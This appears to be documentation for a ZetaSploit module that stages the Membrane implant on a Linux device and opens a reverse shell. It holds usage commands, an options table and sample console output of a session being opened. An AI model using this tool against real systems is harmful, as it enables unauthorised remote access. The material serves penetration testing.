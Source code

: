# `exploit/linux/stager/membrane_reverse_tcp`

## Description

This module uses [Membrane Implant](https://github.com/enty8080/membrane) to send it to device and execute from `/private/var/tmp` to provide reverse shell.

## Verification Steps

1. Start ZetaSploit
2. Do `use exploit/linux/stager/membrane_reverse_tcp`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description        |
|-----------|-----------------------|----------|--------------------|
| `LHOST`   | `self.helper.getip()` | yes      | Local host.        |
| `LPORT`   | 4444                  | yes      | Local port.        |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

## Scenarios

```
(zsf: exploit: linux/stager/membrane_reverse_tcp)> run
[*] Starting listener on port 4444...
[*] Binding to 192.168.2.108:4444...
[+] Listener started on port 4444!
[*] Connecting to 192.168.2.110...                
[*] Sending first stage...                        
[*] Executing first stage...                      
[*] Sending second stage...                       
[*] Executing second stage...                     
[*] Establishing connection...                    
[+] Session 0 opened!
(zsf: post: linux/membrane/trolling/say)> sessions
 
Sessions
========
 
    ID    Host             Username    Hostname     
    --    ----             --------    --------     
    0     192.168.2.110    enty8080    Ivans-Mint

(zsf: post: linux/membrane/trolling/say)>
```
